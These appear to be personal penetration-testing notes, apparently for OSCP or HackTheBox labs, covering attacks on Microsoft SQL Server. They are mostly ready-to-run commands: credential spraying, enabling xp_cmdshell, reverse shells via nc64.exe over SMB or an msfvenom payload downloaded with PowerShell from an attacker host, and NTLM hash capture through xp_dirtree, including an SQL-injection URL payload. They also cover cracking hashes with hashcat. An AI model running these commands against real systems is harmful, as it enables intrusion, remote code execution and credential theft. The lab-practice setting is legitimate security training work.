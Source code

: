 Port 1433

#### spray:
```
nxc mssql 10.10.159.148 -u sql_svc -p Dolphin1 -x whoami
```

---
#### shell
```
mssqlclient.py -windows-auth oscp.exam/sql_svc:'Dolphin1'@10.10.159.148
```
- also try without `-windows-auth`

---
#### once connected to SQL, try enabling xp_cmdshell to run commands:
SQL> 
```
use master
```
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] INFO(MS02\SQLEXPRESS): Line 1: Changed database context to 'master'.
SQL> 
```
sp_configure 'show advanced options', '1'
```
[*] INFO(MS02\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> 
```
RECONFIGURE
```
SQL> 
```
sp_configure 'xp_cmdshell', '1'
```
[*] INFO(MS02\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> 
```
RECONFIGURE
```
SQL> 
```
EXEC master..xp_cmdshell 'whoami'
```
- shows response under output
Shell with nc64:
- put nc64.exe in current linux directory and start smbserver:
```
smbserver.py test . -smb2support
```
- start listener:
```
rlwrap -cAr nc -lvnp 443
```
- run command from mssql:
```
xp_cmdshell \\10.10.14.169\test\nc64.exe -e cmd.exe 10.10.14.169 443
```
- should catch shell with listener

Alt path for shell once xp_cmdshell if enabled:
- generate shell payload with msfvenom:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.126.147 LPORT=1234 -f exe -o payload_1234.exe
```
- run two commands from mssql SQL >
```
exec xp_cmdshell "powershell -c iwr -uri http://10.10.126.147:83/payload_1234.exe -Outfile c:\windows\temp\payload_1234.exe"
```
```
exec xp_cmdshell "powershell -c c:\windows\temp\payload_1234.exe"
```

if no xp_cmdshell permissions, try xp_dirtree & impacket smbserver:
```
smbserver.py test . -smb2support
```
SQL> `EXEC xp_dirtree '\\<kali.ip>\test', 1, 1`
- will see user hash in smbserver.py
- can also use responder
	- `sudo responder -I tun0 `
- to crack ntlmv2 hash, copy entire hash, starting with first letter and run:
	- `hashcat -m 5600 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt`
	- example hash to save in hashes.txt:
`DC01$::MANAGER:aaaaaaaaaaaaaaaa:a449be48471697e29e12179c8b3f4a4b:01010000000000008075a48fc5c5da011cc09eeab02291ec0000000001001000420044005600740068006b004b006c0003001000420044005600740068006b004b006c000200100063004e004200640050006700620064000400100063004e00420064005000670062006400070008008075a48fc5c5da01060004000200000008003000300000000000000000000000003000001b8f515b7210704c5914dd1d2d8ae1436fa4c997960b22794c47bffdbd369bdf0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00330030000000000000000000`

SQL> `enum_db`
- will show databases
- master, tempdb, model, and msdb are all default

SQL>`xp_dirtree C:\`
- see filesystem
- if the machine also has port 80 open, check C:\inetpub\wwwroot for any files/pages not obviously accesible from website. than grab it with:
	- `wget http://manager.htb/website-backup-27-07-23-old.zip`


If SQLi, start `smbserver.py test . -smb2support` and try appending this to URL where `'` goes:
```
;%20EXEC%20master..xp_dirtree%20%22\\10.10.14.5\test%22;%20--
```
- replace `10.10.14.5` with kali IP
- ex: `https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=8;%20EXEC%20master..xp_dirtree%20%22\\10.10.14.5\test%22;%20--`
- catch ntlmv2 hash and crack with john (copy whole thing including username and trailing 00000s)